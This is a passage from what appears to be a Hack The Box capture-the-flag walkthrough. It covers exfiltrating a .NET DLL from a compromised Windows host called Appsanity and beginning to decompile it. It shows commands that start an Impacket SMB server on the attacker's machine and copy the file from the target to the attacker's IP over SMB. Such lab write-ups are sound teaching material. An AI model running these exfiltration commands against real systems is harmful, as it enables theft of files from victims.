 #### Exfil

I'll start an SMB server on my host using Impacket's `smbserver.py`:



    oxdf@hacky$ smbserver.py -smb2support -username oxdf -password oxdf share `pwd`
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed



Now on Appsantiy I'll connect to the share and copy the file into it:



    PS C:\> net use \\10.10.14.6\share /u:oxdf oxdf
    The command completed successfully.
    PS C:\> copy \inetpub\ExaminationPanel\ExaminationPanel\bin\examinationManagement.dll \\10.10.14.6\share\



I've got the file on my system:



    oxdf@hacky$ file ExaminationManagement.dll 
    ExaminationManagement.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows



#### Reversing

My tool of choice at the moment for reversing .NET binaries is
[DotPeek](https://www.jetbrains.com/decompiler/), though if I wanted to
stay on a Linux VM I could use
[ILSpy](https://github.com/icsharpcode/ILSpy).

I'll open it up, and take a look:

![](/img/image-20240301171747299.png)
